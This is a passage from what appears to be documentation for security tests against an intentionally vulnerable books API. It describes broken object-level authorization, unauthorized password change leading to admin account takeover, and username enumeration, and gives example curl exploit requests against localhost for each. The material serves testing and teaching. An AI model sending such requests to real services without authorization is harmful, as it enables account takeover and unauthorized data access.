 **Tests**:
- Accessing other users' books by title
- Enumerating books across users
- Verifying own book access works

**Impact**: Any authenticated user can access any book if they know the title.

**Example Exploit**:
```bash
# Login as user1, access user2's book
curl -H "Authorization: Bearer <user1_token>" \
  http://localhost:5000/books/v1/User2SecretBook
```

---

### test_04_unauthorized_password_change.py - Unauthorized Password Change

**Vulnerability**: Uses URL parameter instead of token identity at `api_views/users.py:186-192`

**Tests**:
- Changing another user's password
- Changing admin password as regular user
- Account takeover chain attack

**Impact**: Any authenticated user can change any other user's password, leading to complete account takeover.

**Example Exploit**:
```bash
curl -X PUT http://localhost:5000/users/v1/admin/password \
  -H "Authorization: Bearer <user1_token>" \
  -H "Content-Type: application/json" \
  -d '{"password":"newpassword"}'
```

---

### test_05_user_enumeration.py - User/Password Enumeration

**Vulnerability**: Different error messages reveal user existence at `api_views/users.py:101-110`

**Tests**:
- Valid username + wrong password: "Password is not correct"
- Invalid username: "Username does not exist"
- Systematic username enumeration

**Impact**: Attackers can enumerate valid usernames, then focus brute-force attacks on real accounts.

**Example Exploit**:
```bash
# Check if username exists
curl -X POST http://localhost:5000/users/v1/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"wrong"}'
# Response: "Password is not correct for the given username." = user exists!
```

---